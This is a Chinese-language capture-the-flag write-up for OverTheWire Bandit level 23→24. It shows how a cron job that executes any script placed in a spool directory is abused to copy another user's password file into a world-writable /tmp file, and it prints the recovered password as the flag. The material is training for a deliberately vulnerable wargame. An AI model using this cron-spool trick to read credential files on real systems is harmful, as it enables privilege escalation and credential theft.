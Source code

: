 # [Level 23 -> 24](http://overthewire.org/wargames/bandit/bandit24.html)

 shell script 初體驗。

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…


### Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)

## Writeups

這題依然跟```cron```有關，就讓我們直接看看```cronjob_bandit24```在做什麼：

```shell
bandit23@melinda:/etc/cron.d$ cat cronjob_bandit24
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 "./$i"
	rm -f "./$i"
    fi
done
```

shell script 已經說出了一切，它會執行所有在```/var/spool/$myname```的檔案，在這裡的```$myname```也就是```bandit24```。所以我們現在要做的就是，把 shell script 放進```/var/spool/bandit24```，再請它把密碼吐出來囉！首先，創建一個的目錄，方便我們撰寫 script 及存放密碼：

```shell
bandit23@melinda:/etc/cron.d$ mkdir /tmp/bandit24script
bandit23@melinda:/etc/cron.d$ cd /tmp/bandit24script
```

撰寫```script.sh```：

```shell
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/bandit24script/password.txt
```

開啟執行權限：

```shell
bandit23@melinda:/tmp/bandit24script$ chmod 777 script.sh
bandit23@melinda:/tmp/bandit24script$ ls -la
total 7868
drwxrwxr-x 2 bandit23 bandit23    4096 Aug  2 09:59 .
drwxrwx-wt 1 root     root     8036352 Aug  2 10:00 ..
-rwxrwxrwx 1 bandit23 bandit23      78 Aug  2 09:59 script.sh
```

開啟資料夾權限：

```shell
bandit23@melinda:/tmp/bandit24script$ chmod 777 .
bandit23@melinda:/tmp/bandit24script$ ls -la
total 7864
drwxrwxrwx 2 bandit23 bandit23    4096 Aug  2 10:04 .
drwxrwx-wt 1 root     root     8036352 Aug  2 10:07 ..
```

放進```/var/spool/bandit24```，等待```password.txt```：

```shell
bandit23@melinda:/tmp/bandit24script$ mv script.sh /var/spool/bandit24/
bandit23@melinda:/tmp/bandit24script$ ls
password.txt
bandit23@melinda:/tmp/bandit24script$ cat password.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Flag：```UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ```。

> [Next level（Level 24 -> 25）](https://github.com/YanHaoChen/OverTheWire-Writeups/blob/master/Bandit/Level24to25.md) 
